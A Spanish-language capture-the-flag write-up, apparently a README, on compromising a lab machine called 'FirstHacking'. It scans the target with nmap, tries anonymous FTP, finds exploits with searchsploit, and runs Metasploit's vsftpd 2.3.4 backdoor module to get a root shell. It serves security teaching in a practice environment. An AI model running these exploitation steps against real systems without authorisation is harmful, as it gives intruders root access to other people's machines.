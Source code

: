 
# Explotación de VSFTPD 2.3.4 con Metasploit | Maquina FirstHacking

## 🔎 Escaneo inicial con Nmap  
Iniciamos con un escaneo para detectar puertos abiertos y versiones de servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -sV -vvv -n -Pn 172.17.0.2
```

### Explicación:
- **`-p-`** → Escanea todos los puertos (1-65535).  
- **`--open`** → Muestra solo los puertos abiertos.  
- **`-sS`** → Escaneo stealth SYN (rápido y sigiloso).  
- **`--min-rate 5000`** → Acelera el escaneo enviando 5000 paquetes/seg.  
- **`-sV`** → Detecta versiones de servicios.  
- **`-vvv`** → Muestra más detalles.  
- **`-n`** → No resuelve DNS (más rápido).  
- **`-Pn`** → Asume que el host está activo.  

###  Resultado:
Solo encontramos **el puerto 21 (FTP) abierto**.  

---

##  Intento de acceso con anonymous FTP  
Primero, probamos si podemos conectarnos con usuario anónimo:  

```bash
ftp 172.17.0.2
```

Si el servidor permite **anonymous login**, podríamos acceder sin credenciales. Esto suele permitir:
- Descargar archivos públicos.
- En algunos casos, **subir archivos maliciosos** si el servidor está mal configurado.  

 **En este caso, el acceso anónimo no funcionó.** Seguimos buscando otra forma de entrar.  

---

##  Buscamos exploits para vsftpd 2.3.4  
Ejecutamos en la terminal:  

```bash
searchsploit vsftpd 2.3.4
```


El resultado nos da dos opciones:
1. Un exploit en **Python**.  
2. Un exploit en **Metasploit** (el que usaremos).  

---

##  Explotación con Metasploit  
Abrimos Metasploit en modo silencioso:

```bash
msfconsole -q
```

 **Diferencias:**  
- `msfconsole` → Abre Metasploit con la pantalla de inicio.  
- `msfconsole -q` → Lo abre en modo silencioso.  

Buscamos el exploit:

```bash
search vsftpd 2.3.4
```

El resultado nos muestra el exploit disponible:  
```bash
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  No  VSFTPD v2.3.4 Backdoor Command Execution
```

Seleccionamos el exploit con:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Despues metemos un:

```bash
show options
```

---

##  Lanzando el exploit  
Configuramos el objetivo:

```bash
set RHOSTS 172.17.0.2
```


`use` = Escoge el exploit o módulo.<br/>
`set` = Configura parámetros necesarios.<br/>



Ejecutamos el ataque:

```bash
run
```
o  
```bash
exploit
```

Si todo sale bien, tendremos una **shell remota**.  

---

##  Comprobando acceso root  
Ejecutamos:

```bash
whoami
```

Listo, somos `root` 

---

## Conclusión  
Hemos explotado **vsftpd 2.3.4** y conseguido acceso **root** en la máquina.   

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.** <br/>
**Nos vemos en la proxima hackers**
